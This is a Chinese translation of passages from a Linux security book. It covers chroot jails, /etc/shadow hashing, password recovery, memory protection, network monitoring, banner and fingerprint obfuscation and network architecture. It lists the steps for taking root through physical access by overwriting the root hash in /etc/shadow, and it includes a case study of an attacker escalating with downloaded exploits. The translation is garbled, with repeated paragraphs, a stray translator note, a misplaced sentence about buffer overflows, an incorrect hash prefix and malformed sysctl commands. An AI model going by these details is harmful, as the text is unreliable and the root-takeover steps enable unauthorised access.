然而，观察逃逸监狱的高级步骤可以显而易见，一旦用户或守护进程获得 `root` 权限，问题就会出现，并且由于 `chroot()` 函数在监狱内运行而进一步加剧了这种情况。这可能是由于程序员的捷径、对监狱中包含的工具类型缺乏远见、其中一个应用程序的漏洞，或者由于监狱设置配置不当所导致的。这些都是人为错误或缺乏妥善管理的结果。

### 防止逃离 chroot 监狱

`chroot` 监狱的破除是可以避免的，但需要大量的关注、考虑、维护和尽密的测试，以确保环境在投入生产之前以及在通过定期修改之后能够按照预期正常工作。维护部分通常是循环失效的地方，因为人们倾向于设置好 `chrooted` 环境后置之不管。考虑到漏洞被识别和相应利用程序创建的速度，这无异于自寻死路。

恶意方可以利用 Linux 设计中内置的管理活动来获取非预期的访问。密码恢复就是其中一个功能。管理员必须采取适当预防措施，确保系统受到充分保护，防止非预期用户进行密码恢复。

### 物理访问、加密与密码恢复

| 流行度：8 | |
| :--- | :--- |
| 简单性：7 | |
| 影响力：10 | |
| 风险等级：8 | |

有许多不同的认证方案与 Linux 类似，但本地密码到目前仍是最常见的方法。现代 Linux 系统中的本地密码存储在 `/etc/shadow` 目录中，使用 DES、MD5 或 Blowfish 哈希算法以及某种形式的密码盐（salt）。

在这三种方法中，DES 是默认使用的密码加密方法（特别是在旧系统中），应该更改为 Blowfish；DES 仅允许 8 字节的密码，而 MD5 由于碰撞问题（发现多个输入具有相同的 MD5 哈希值）、已公布的 MD5 彩虹表以及不断提高的处理器速度，现在被认为是有问题的。此外，MD5 中已被发现了允许暴力破解的捷径。攻击者还发现，切掉前 4 个字节比尝试暴力破解更快。

密码盐通过在哈希算法提供的基础上额外增加特定比特的扰动（取决于哈希算法），在密码哈希中引入了进一步的复杂性。本质上，它的目的是增加密码复杂性，提供针对暴力攻击的更强保护。

此外，如果用户能够访问 `/etc/shadow` 文件，盐还可以防止用户识别出具有相同密码的其他账户。具体来说，如果两个用户账户具有相同的密码，它们的密码哈希值仍然是不同的，因为用于密码的盐是随机的，使得密码哈希值完全不同。

盐还可以用于识别用于密码的单向哈希算法。例如，使用 MD5 加密的密码开头会有一个 `"1$"`。

## 第 4 章：本地访问控制

同样，带有 `"$2"` 的是使用 Blowfish 加密的密码。以下划线 `_` 开头的哈希使用 DES 和用户指定的数量的扰动加密。以任何其他字符开头的哈希使用固定数量的扰动。

### 本地密码恢复

识别正确的密码哈希算法对于暴力破解密码至关重要。在彩虹表和经典的暴力破解尝试中情况如此。如果只需要获取机器本身的 `root` 权限，而无需额外的暴力破解工作，这字节必须的。

如前所述，从物理安全的角度来看，你只需要执行以下操作即可实现 `root` 登录：

- 物理访问机器

- 获取 Linux 启动光（BackTrack, Knoppix-STD, Aridus...）

- 获取一组使用相同盐的加盐密码哈希值

- 获取目标系统使用的单向哈希算法

- 利用你删除目标系统上密码的能力，或从文本文件中复制并粘贴密码，以覆盖目标系统 `/etc/shadow` 文件中的 `root` 密码

顺便提一下，你可能还想从目标系统复制 `root` 密码，以便以后（如果需要）再次包含它。这在任何种需要保持系统不被修改的秘密行动中特别有帮助。

理论上，可以完全从目标用户中删除密码。

（注：由于原文存在大量重复段落，译文已按要求去重）

## 第 4 章：本地访问控制

如果对系统进行的更改对镜像产生了不利影响，或者大量、复杂的更改无效或过于繁琐且撤销耗时过长，你可以轻松地从备份中恢复文件。此外，你还可以利用某些虚拟服务器自带的回滚或恢复功能来快速恢复并继续实验。

在做出配置更改后，利用虚拟测试机作为渗透测试的目标。这些测试机不应与实时生产网络有任何关联，除非镜像当前或拟议的配置。你可以对这些虚拟机使用任何及所有的渗透和审计技术，而无须担心生产环境的风险，例如崩溃服务器或向生产数据库注入垃圾数据。

如果虚拟机的配置通过了渗透测试且没有副作用，则可以将这些配置推送到生产环境。否则，请进行进一步的加固调整并重新运行测试或审计。

Linux 可信计算（http://www.opentc.net）是工具和信息的绝佳资源。

### 加密

另一种方法安全性稍低，但在没有特权知识的情况下不易破解，是对包含密码哈希值的驱动器或分区进行加密。具体来说，包含 `/etc/shadow` 文件的分区或物理设备必须加密。

大多数现代版本 Linux 的分区管理器现在已包含在创建时加密卷的功能，但如前所述，必须进行特殊配置和内核补丁才能加密系统分区。

以下是 David Braun 编写的一篇优秀的 How-To 链接，提供了如何在 2.4 内核中从零开始设置整个加密 Linux 安装的步骤：http://tldp.org/HOWTO/html_single/Disk-Encryption-HOWTO。

此外，Boyd Waters 和 David Braun 使用 2.6 内核编写了另一篇优秀的白皮书。可以通过以下链接访问该白皮书：http://www.sdc.org/~leila/usb-dock/readme.html。

除了成功强制破解加密驱动器的密码，或通过社会工程学或硬件键盘记录器获取驱动器或分区的密码外，攻击者一旦遇到这一障碍就别无能为力。尽管他们可能获取了机器本身，但机器上的数据实际上是无法使用的。

### 易失数据

易失数据是系统加固时最容易被忽视的主要区域之一，也是系统可能被利用的主要区域之一。运行进程的内存空间和页面文件位置通常是存储攻击者非常有用的珍贵数据的宝库，而缓冲区溢出恰恰发生在这里。

## 破解 Linux 安全：Linux 安全秘密与解决方案

### 利用内存中的数据

| 流行度 | 8 |
| :--- | :--- |
| 简单性 | 4 |
| 影响 | 8 |
| 风险评分 | 7 |

几乎所有现代漏洞都以某种方式利用了内存中的数据。攻击向量可能是简单地收集和窃取存储在内存中的敏感数据，或者通过某种方式更改或操纵数据，以授予意外的访问权限，或欺骗进程以背离预期的方式运行。

### 物理内存数据采集

从内存中转储数据并在十六进制编辑器中查看它们是收集敏感信息的极佳方法。在许多应用程序中，密码和其他宝石可以以明文形式浮现在内存中。Groupwise 5.x 和 6.x 电子邮件客户端被发现存在此类漏洞，直到 6.5 SP5 发布。更多信息请参阅安全警报 NOVL-2005-1009807377，地址为：http://support.novell.com/cgi-bin/searchit.cgi?id=100980737。

### 缓冲区溢出和弱输入验证

缓冲区溢出和输入验证攻击本质上是因为应用程序分别没有验证数据的大小和类型。因此，输入应用程序的数据可以构造为溢出系统预期的边界和函数，并以不可预测的方式对其进行操纵。

在缓冲区溢出的情况下，比缓冲区大的数据会被写入内存的其他地方。通过实验，攻击者可以精确指定写入什么数据，这通常会导致任意代码执行，从而构成严重漏洞。执行缓冲区溢出时，不会产生对生产环境产生干扰的风险，例如崩溃服务器或向生产数据库注入垃圾数据。

输入验证攻击发生在应用程序未能验证用户提供的输入时。这允许攻击者构造出溢出系统预期边界和函数的数据，并以不可预测的方式对其进行操纵。

### 保护内存中的数据

易失数据是系统加固时最容易被忽视的主要区域之一，也是系统可能被利用的主要区域之一。运行进程的内存空间和页面文件位置通常是存储攻击者非常有用的珍贵数据的宝库，而缓冲区溢出恰恰发生在这里。

应用程序安全的一个重要部分是保护内存中的数据。在内存不受保护的地方存在许多漏洞。然而，遵循几项原则将使数据更加安全。

## 第 4 章：本地访问控制

首先，仅在必要时在内存中保留敏感数据。尽快通过覆盖数据来安全地删除它。这缩短了攻击者的可机会窗口。

其次，无论数据在内存中保留多久或是否写入文件，如果可能，敏感数据永远不应以明文形式存储。始终尝试使用数据的加密校验和代替等价物。

第三，确保敏感数据永远不会写入磁盘。这对于密码来说尤其如此。

第四，确保分配所需的正确内存，最好在一个固定大小的块中，但越小越好。然后，锁定该块。

第五，始终验证应用程序接收的数据长度正确且符合预期数据类型。永远不要允许应用程序在未先进行匹配的情况下访问并处理数据。

最后，如果数据从放入内存到被擦除一直被持续访问，风险将降至最低。此外，标准的分页规则可能会防止该页面被写入磁盘。

### 总结

本章概述了许多可以实施以增强物理安全、可以实施、或应在审计期间审查的本地配置更改和插件。虽然可能无法、甚至不切实际实施所有方案，但建议为你的环境找到最佳的工作组合。

拥有多层物理访问控制和深度防御对于资源的长期安全和机密性至关重要。深度防御可以弥补其他领域的短板，例如软件漏洞或未能阻止对计算机本身的物理访问。

# 第5章

### 案例研究

Acme 公司对所有敏感信息的加密和安全有严格的政策。为了尝试与其客户和供应商之间提供一种安全的文件传输方法，Acme 公司设置了一台 Linux 服务器，将其放在防火墙之后，向互联网开放了所有的 TCP 22 端口，并为每个供应商创建了普通用户账户，为所有客户创建了一个共享普通用户账户。

Acme 与客户之间传输的数据是非敏感的，与技术支持有关。技术支持的用户名和密码仅提供给有技术支持查询客户，且仅通过电话提供，绝不通过电子邮件或其他方式。

然而，Acme 与供应商之间传输的数据高度敏感，包含了未来产品的详细设计信息以及敏感的财务和员工工资数据。所有数据类型都可以通过相应供应商的用户权限访问，并且在理想情况下，它们受到了用户账户和权限设计的保护。各个供应商的用户名和密码也仅通过电话提供，绝不通过电子邮件等未加密的介质发送。

虽然这似乎是一个良好的开始（实际上并非如此），但 Slartibartfast——一个被缺乏耐心的技术支持代表蔑视的不满客户——很快发现自己不仅无法上传文件，还可以使用 SSH 命令壳登录系统，运行系统命令，并执行他上传到系统的任意二进制文件。

在几分钟内，他确定了系统的发行版、内核、已安装软件和补丁级别。在 http://www.mitre.org/cve/ 上快速搜索后，由于未安装补丁和更新，该系统存在多个漏洞。Slartibartfast 随后访问 http://www.packetstormsecurity.org 并下载了几个利用程序，其中一个或多个可以让他通过识别出的多个漏洞中的一个获取系统的 `root` 权限。十分钟后，他正在查看后续产品的计划和图纸，同时思考如何从他发现的员工工资信息中获利。

信息安全中可能第二重要的规则是“对待 Shell 访问！”即使是来自 SSH 或其他远程服务，Shell 账户实际上等同于本地系统访问。如果攻击者获得了无特权 Shell 账户的访问权限，他们找到方法向系统上传工具和利用程序并获得 `root` 级访问可能只是时间问题。

因此，适用于物理安全（PHYSSEC）的大多数原则也适用于通信安全（COMMSEC）。可以说，COMMSEC 是 PHYSSEC 硬件控制加上网络连接。如果事情还不够复杂的话，我们正准备添加另一个极端维度。

此外，“仅提供所需的访问”的概念无缝地转移到了网络视角，但我们在此基础上增加了“通过禁用或关闭项来限制访问，而不是实施限制已启用项的访问控制”。换句话之，除非是，否则不应有服务在运行或端口在监听。

例如，禁用服务并过滤端口以添加身份验证机制或白名单更好。这仍然符合最小访问的目标，并使物理配置和网络配置保持连贯性。在本章中，我们将讨论跨越网段的数据、流量和攻击向量、它们的危险滥用以及保护策略。为了便于理解，基础了解 OSI 七层模型至关重要。

### 网络可见性

网络可见性的目标是提供监控、检查、故障排除和终止任何指向系统或设备的网络流量的能力，而不会损害网络的完整性。理想情况下，所有网络网段都应该由 IDS（入侵检测系统）监控，或至少“可以被数据捕获设备嗅探”。

### 网络可见性漏洞

| 流行程度: | 8 |
| :--- | :--- |
| 简单性: | 7 |
| 影响: | 6 |
| 风险评分: | 7 |

网络可见性的目标是提供监控、检查、故障排除和终止任何指向系统或设备的网络流量的能力，而不会损害网络的完整性。可见性的缺乏会导致一种局面：你对穿过你网络的流量一无所知。正如俗语说，“你不知道你所不知道的。”就像在微生物学中，恶性感染可以在未监控的地方滋生一样。

# 黑客攻防：Linux：Linux 安全机密与解决方案

尽管如此，可见性的缺乏既不会在系统上产生漏洞，也不会增加被利用的威胁。但它确实增加了系统利用在更长时间内不被检测到的威胁，并且更多系统可能面临长期暴露的风险。

### 提高网络可见性

提供网络可见性有许多方法。某些方法提供了更好的稳定性并减少了数据包丢失。其他方法会对网络产生巨大影响，并可能导致功能完全丧失。

开始点是评估网络架构并确定交换机和流量监控设备的能力。这涉及识别任何无法镜像（spanning）或缺乏资源在不影响网络性能和数据包丢失的情况下执行镜像的交换机。（镜像是一项涉及将一个或多个端口的所有流量汇聚到另一个单端口的功能，以便通过 IDS、监控工具或其他机制进行检查。）

接下来，你必须验证执行镜像的接口实际上能够处理将通过它的的负载。例如，如果你有一个具有 20/100 接口的交换机，其中19个接口被镜像到 10/100 接口，数据将会丢失，因为交换机无法将这么多流量汇聚到单个接口。结果是该交换机上的可见性很差。更好的配置是使用一个除了 10/100 接口外还有两个千兆位接口的交换机。使用 10/100 接口用于工作站，并将两个千兆位接口之一用于镜像。根据你的环境的大小和配置，另一个交换机接口可能会用于*中继*（trunking，即交换机之间的通信，允许对虚拟局域网或 VLAN 进行正确处理），特别是当你的环境利用了 VLAN 时，VLAN 用于创建多个广播域并划分流量组。

建议将工作负载和低使用服务器限制在 10/100 接口上（如果都是千兆的，则将模式设置为 10/100），并将千兆流量留给中继或高使用服务器。

此外，镜像不应包含作为高使用服务器的千兆接口，因为结果可能是不可靠的。高使用服务器应该拥有自己专用的以太网分用器监控流量。以太网分用器是通过直接插入连接两个网段的网络线来连接并拦截网络网段流量的设备。以太网分用器看起来像集线器，本质上是将一个输入转换为两个或多个输出。其中一个输出连接到原始目标地，另一个连接到一个或多个监控设备。这允许对远程节点或网络的流量进行捕获和检查，而不会对网络本身产生任何影响，正如端口镜像或重镜像可能造成的影响那样。镜像是一项伟大的技术和非常实用的工具，但它也有其局限性。确保所有接口的最大带宽不超过镜像接口的最大可用带宽和/或背板带宽是至关重要的。

## 第5章：数据网络安全

设备，为了维护网络完整性以及监控质量。

其他形式的镜像（如 RSPAN）具有更大的局限性，应仅在带宽利用率极低的情况下极度谨慎地使用，最好完全不使用。RSPAN 是 Cisco 提供的一项功能，允许将流量从远程交换机镜像到另一台交换机（例如核心交换机）。理论上，环境中所有交换机的所有网络流量都可以被镜像到单个 IDS 端口。

虽然这看起来像是一个创新的想法，但它可能会对网络稳定性产生深远的负面影响。即使在轻/中等负载下，使用 RSPAN 也可能导致远程交换机和核心交换机故障或丢包，并导致网络连接断断续或完全失败。在实践中，这种未记录的功能可能会导致分布式拒绝服务攻击。如果启用了此功能且网络有中等量的流量，网络管理员可能需要带着笔记本电脑和控制台在交换机之间走动以禁用 RSPAN。

图 5-1 显示了目前为止讨论的一些问题。请注意，RSPAN 将交换机上的所有端口镜像到核心交换机，这意味着正在将所有接口（甚至是高频用户的接口）和 RSPAN 流量镜像到馈给 IDS 的单个接口。

至少，RSPAN 是导致网络可视性极差的配方。但如前提到的，它还会在网络上产生一个潜在的拒绝服务局面。在这种配置下，所有旨在进入 IDS 的流量无损到达的概率非常低。



图 5-1 低可视性网络

## 攻防 Linux 系统：Linux 安全秘密与解决方案

图 5-2 显示了一个完全不同的设置。上述每个网络都使用之前讨论过的优化可视性的首选方法进行了重新配置。每个卫星交换机都有一条从千兆镜像端口到 IDS 的独立链路。核心交换机仅将低频服务器和工作站镜像到单个千兆端口，该端口直接连接到 IDS。此外，每个高频服务器都有一个专用的太网分流器（tap），用于切分服务器的流量，并单独连接到 IDS。这样配置网络更加稳健，提高了性能并减少了丢包。

### 协议使用监控

既然你已经有了从每个位置都能清晰看到的网络配置，下一个要讨论的可视性项目就是穿越网络的流量类型。当你分析网络流量以查看是什么流量占用了这么多带宽并导致拥塞时，你可能会感到非常惊讶。


图 5-1 和图 5-2 显示了 IDS 作为流量监控设备。虽然对于网络包含 IDS 显然是明智的，但还有许多复杂的工具，它们将 IDS 功能与许多其他功能相结合，例如高级流量分析和分析工具。



图 5-2 高可视性网络

与其他任何其他事物一样，你可以选择免费、廉价或昂贵的方法来实现目标，每种方法都有自己的优点和应用场景。`NTOP` 是来自 `http://www.ntop.org` 的免费应用程序，它执行了许多让 Packetaser 成功的流量报告和图表功能。然而，`NTOP` 不提供任何流量整形能力。

`IPTraffic` 是另一个好工具，可以从 `http://cebu.mozcom.com/riker/iptraf/index.html` 获取。它提供了相同类型的统计流量分析，但是以 ASCII 格式呈现的。

从网络安全的角度来看，深入了解穿越网络的常见流量类型以及一天中不同时间使用的协议百分比非常有帮助。这些知识将有助于识别可疑的网络行为，例如由蠕虫或恶意个人引起的行为。这一过程被称为网络流量分析（profiling）并为随后的比较创建基线（baseline）。例如，对任何给定时间穿越网络的预期流量类型和数量熟悉，可能会导致无法识别问题或不一致之处。检测恶意流量的唯一方法是查看并验证某些 IDS 告报，或查看服务器日志中的某些异常数据。然而，等到 IDS 识别出告报时，损害已经造成。IDS 事件非常多，从单个告报中识别模式可能非常。

此外，不熟悉预期的网络流量统计可能会导致其他问题。为了有效识别问题，请按协议、源、目的、常规高值、常规低值以及所有这些内容的相关时间表记录网络流量平均值。最好，你可以查看这些统计数据的图形化表示。理想情况下，你应该能够轻松查看并比较预期流量统计和当前流量统计。如果没有这一点，你就无法识别是否发生了异常流量模式，或者什么可能需要进一步调查。

相反，采用上述类别监控网络流量和平均值的有效方法，并结合已建立的正常基线，将使异常流量模式更加明显且更容易被识别。例如，在午夜到凌晨 2 点之间的典型晚上，网络上经历的唯一显著流量是几台服务器上的 Web 备份流量。然而，在早上的业务期间，流量监控显示从数据库服务器到网络上工作站有异常大量的 SQL 流量，以及从该工作站到互联网的相应的 Web 流量。经过进一步调查，你发现使用该工作站的员工昨天并没有上班。你最终确定该工作站感染了木马，该木马正处于收集机密客户数据并发送到海外某处的早期阶段。这个例子很容易地说明，偏离既定基准可以帮助识别感兴趣的事件。

假设有了监控流量模式的有效方法，你可以在攻击升级之前停止它们，或者至少在损害变得严重之前限制。良好的网络可视性结合良好的监控和管理技术对于增强网络安全是无价的。这些技术提供了检测可能损害公司或暴露它的异常的其他方法。

### 网络与系统分析

任何基于网络的攻击的第一步是识别潜在目标和价值。对系统和网络进行扫描并列出操作系统、服务包、应用程序/服务、版本、补丁级别、端口等细节。一旦获取了这些数据，攻击过程现在被简化和优化，并且系统和应用程序可以被精确打击，从而减少了攻击涉及的流量。

### 标志抓取 (Banner Grabbing)

| 流行度 | 10 |

| :--- | :--- |

| 简单性 | 8 |

| 影响 | 3 |

| 风险评分 | 7 |

大多数漏洞扫描器渗透测试工具使用头部作为识别潜在漏洞的主要方法。如果攻击者可以轻松地发现操作系统和版本，他们就可以更容易识别系统漏洞并开始寻找可行的路径。此外，一些自动化渗透工具利用根据识别出的版本及其运行平台自动利用系统的代码。

### 隐性安全

相反，移除这些头部会混淆扫描器或蠕虫并增加攻击者的难度，需要人工交互，并且通常意味着自动化扫描和攻击机制将失败。在攻击者实际上能够利用服务并获得控制权之前，他们必须首先识别确切的服务。

隐性安全得了一个坏名，主要是因为它通常是唯一的安全措施。然而，它和应该作为深度防御机制的一员有一席之地。发生过太多实例，唯一的安全措施就是

认为因为没有人知道它是如何工作的，所以它是安全的。虽然这种概念显然从本质上是有缺陷的，但通过模糊实现安全也有其用之地——当它与其他更具进取性和防御性的安全措施结合使用时，它可以是一个非常有用的工具。

通过模糊实现安全的流程的一部分包括移除或混淆报头。大多数网络服务包含报头，以礼貌地向远程用户识别自己，有时还有它们运行的操作系统。这并不一定是漏洞，但它提供了不必要的信息，可能被恶意分子用于不法目的。

现在你已经知道了为什么混淆报头很重要，我们将讨论实现它的各种方法。对于任何与安全相关的事务，实现方法不止一种。关于这个主题，有两种主要的流派。

第一种是将报头更改为某些神秘信息或将其删除。这实现了混淆服务真实身份的目标，但会明显看出报头已被修改。虽然这可能比服务报告默认值要好，但它不会让扫描器和脚本小子（script kiddies）感到任何不适。此外，对于更有经验的攻击者来说，混淆报头等同于挑逗，他们可能会比以前更有动力去识别该服务。

第二种方法是将服务重命名为等效但不同的服务。例如，将 Microsoft IIS 重命名为指示它是一个 Netscape Web Server。这种方法更受青。在查看日志并看到攻击者试图在 Apache 服务器上运行 IIS 漏洞，或者看到攻击者在另一个服务上同样被欺骗时，会带来不小的满足感。这种方法也优于神秘信息，因为大多数攻击者会从字面上接受报头指示的默认消息，而如果他们遇到神秘信息，他们可能会被激发去更深层次地寻找，因为它显然已经被修改过。

你可以使用 `mod_headers` 模块来更改 Apache 报头。该模块在 Apache `httpd.conf` 文件中提供了新选项：`Header` 和 `ErrorHeader`。通过配置这两个指令，并在 `httpd.conf` 的主服务器配置部分使用 `set` 参数，扫描器将会在所有 HTTP 响应中发送自定义的服务器报头值：

```
Header Server "Microsoft-IIS/6.0"
ErrorHeader set Server "Microsoft-IIS/6.0"
```

更改这些报头是让攻击者为获得的每一条信息而付出努力的一部分。作为标准操作程序，永远不要泄露任何信息。给攻击者每一个机会让他们沮丧、放弃并离开。更改报头还会向攻击者传达一个信息，即相应的系统是“易得的果实”或猎物。

# Linux 黑客：Linux 安全秘密与解决方案

### 系统指纹

| 流行度 | 8 |

| :--- | :--- |

| 简单性 | 5 |

| 影响 | 3 |

| 风险评分 | 5 |

除了普通的 banner 扫描（banner grabbing）技术外，恶意分子可以使用系统或应用程序默认的通信方式作为识别相应系统的手段，无论配置了什么 banner。这些特征（或称指纹）可能包括错误消息、开放端口、TTL 值、TCP/IP 栈属性或任何其他通过网络流量或数据分析检测到的细节。用于指纹识别的工具示例包括 `hcan`、`nmap` 和 `ammap`。

### 指纹混淆

防御指纹识别尝试的最好方法是修改网络监听主机和服务的定义性特征，以进一步伪装系统的身份。更改服务的可配置值，以模拟完全不同架构上的不同但类似服务。

你掩盖操作系统和服务的身份的方式越多，它们的真实身份就越不容易被发现。然而，在进行这些修改时，要保持单一的主题以尽可能减少不一致性。例如，为了让 Linux 服务器看起来像一台 Microsoft Windows 服务器，请尽可能更改许多项目使其看起来像 Windows 服务器，同时考虑到与模拟系统对应的应用程序类型和版本。

对于 Web 服务器，你将想要修改的下一个项目是错误页面。更改所有错误页面，使 Web 服务器模拟所需的环境，或者在发生某种错误（客户端导航错误、脚本崩溃等）时让它们故意具有模糊性。你可以在 `httpd.conf` 文件中执行此操作。以下是 apache 配置自定义错误页面的示例：

```
ErrorDocument 500 /cgi-bin/crash-recover
ErrorDocument 500 "Sorry, our script crashed. Oh dear"
ErrorDocument 500 http://\*/*/
ErrorDocument 404 /Lame_excuses/not_found.html
ErrorDocument 401 /Subscription/how_to_subscribe.html
```

下一步是将 Windows IIS 服务器或其他服务与平台组合的错误页面复制到 Linux Apache 服务器，并配置上述映射指向新的混淆文件。

## 第 5 章：数据网络安全

在 Windows 2003 IIS 6.0 服务器上，默认错误页面位于 `C:\Windows\Help\iisHelp\common`。然而，修改错误页面只是开始。你还可以修改 ipv4 网络协议参数来更改系统在网络上的通信方式。它们可以被配置为类似于不同操作系统的行为，或者被修改为对外部攻击提供最大的保护。无论何种情况，结果都是混淆操作系统的身份，但后者的建议具有内在价值。表 5-1 列出了在 Linux 中可以为 IPv4 配置的选项。

| icmp_echo_ignore_all | ipfrag_low_thresh | tcp_max_tw_buckets |

| :--- | :--- | :--- |

| icmp_echo_ignore_broadcasts | ipfrag_max | tcp_mem |

| icmp_echo_bogous | ipfrag_interval | tcp_orphan_retries |

| error_responses | ipfrag_time | tcp_reordering |

| icmp_ratelimit | neigh | tcp_rettrans_collapse |

| icmp_max_memberships | netfilter | tcp_retries1 |

| icmp_max_ms | route | tcp_retries2 |

| inet_peer_gc_maxtime | tcp_abort_on_overflow | tcp_sync |

| inet_peer_gc_mintime | tcp_win_scale | tcp_sack |

| inet_peer_maxttl | tcp_dsack | tcp_stud |

| inet_peer_minttl | tcp_ecn | tcp_fin |

| inet_peer_threshold | tcp_synack_retries |

| ip_autoconfig | fin_timeout | tcp_syncookies |

| ip_default_ttl | keepalive_intvl | tcp_recycle |

| ip_forward | keepalive_probes | tcp_reuse |

| ip_local_port_range | keeptime | |

# Linux 黑客：Linux 安全秘密与解决方案

下一个示例简要说明了你可以修改的一些参数以防止 SYN 攻击，以及更改系统 TCP 指纹的方法。

`tcp_max_syn_backlog` 定义了等待队列可以保留多少个半连接。半连接是指已接收 SYN 数据包、已发送 SYN/ACK 数据包但尚未收到 ACK 包的连接。如果 `tcp_max_syn_backlog` 设置过小且达到了超时值，系统在现有连接建立或超时之前无法接收更多连接，这将导致拒绝服务。`tcp_max_syn_backlog` 应设置为 2048。该设置可以根据发行版通过命令行进行配置：

```
sysctl -w ipv4.tcp_max_syn_backlog=2048
```

`tcp_synack_retries` 该参数控制 SYN/ACK 的重传次数。大多数发行版的此值默认设置为 5（如果没有收到有效的 ACK，半连接将在 3 分钟后移除）。然而，你可以减少此值以允许更短的超时。以下值有效：value=5（3 分钟）、value=3（45 秒）、value=2（21 秒）、value=1（9 秒）。注意不要将值设置得太小，因为如果来自远程目的合法流量穿越互联网的时间超过了配置的重传值，低值设计上会导致拒绝服务。该设置可以根据发行版通过命令行进行配置：

```
sysctl -w ipv4.tcp_synack_retries="3"
```

# 第5章：数据网络安全

服务器上的连接。可以使用以下命令行配置此设置，具体取决于 Linux 发行版：

```bash
### sysctl -w net.ipv4.syncookies=1
```

如果对该配置设置不感兴趣或不可行，市面上的某些防火墙具有混淆其所保护主机指纹的天然能力，并能够防御 SYN 洪水攻击等攻击。Checkpoint Smart Defense 模块内置了这种能力，启用它只需点击按钮并应用策略即可。

`IPTables` 实际上是 NetFilter 框架的配置和维护工具，已包含在几乎所有的默认 Linux 发行版中，它也可以被修改以混淆指纹。网站 `http://en.hacking.org` 有一篇关于指纹混淆的很长但很出色的白皮书。该文章由 James Sajko 编写，于 2006 年 8 月 1 日发布，提供了关于如何创建自定义 IPTables 扩展的详细说明

## 网络架构

虽然你可以购买无限数量各种安全设备和软件来保护网络，但所有的软件和设备都容易出现故障（误报和漏报），没有任何东西比构建一个安全的网络架构作为基础更有益。安全必须从设计初就融入工程之中，而不是简单地在后期补上。

## 弱的网络架构

| 指标 | 评分 |

| :--- | :--- |

| 流行度 | 9 |

| 简单性 | 7 |

| 影响 | 8 |

| 风险评分 | 8 |

弱的网络架构（包括内部和外部）不仅会导致外部主机被攻破后能够攻破更多主机，还会导致恶意内部人员进行不希望的内部窥探。创建安全的网络架构往往被低估和忽视。人们对边界防火墙过度关注，而对防火墙背后的内容关注不足。

# 黑客攻防 Linux：Linux 安全秘密与解决方案



看一看网络课程中教授的一些网络模型。它们通常非常简单。图 5-3 显示了常见的分为两个独立网络的划分，由 DMZ 和内部网络组成。

注意，一旦攻击者攻破了其中一个外部机器，他们就能对 DMZ 中的其他机器获得提升访问权限，因为所有端口对相邻服务器都是开放的，而不仅仅是可以通过互联网访问的端口。此外，所有内部工作站都在一个大局域网中，人们可以访问所有其他内部主机，并可能通过管理共享、未修补的网络服务、限制不当的文件共享或其他手段获得访问。

某些组织将网络架构更进了一步，如图 5-4 所示，创建了内部服务器 VLAN，这增强了监控服务器流量的能力，但其本身对增强整体网络安全的帮助不大。

这种主要是扁平化的架构仍然允许所有工作站访问其他工作站的所有端口，通常也是所有内部服务器的所有端口。这是一个经典的“蛋壳架构”——

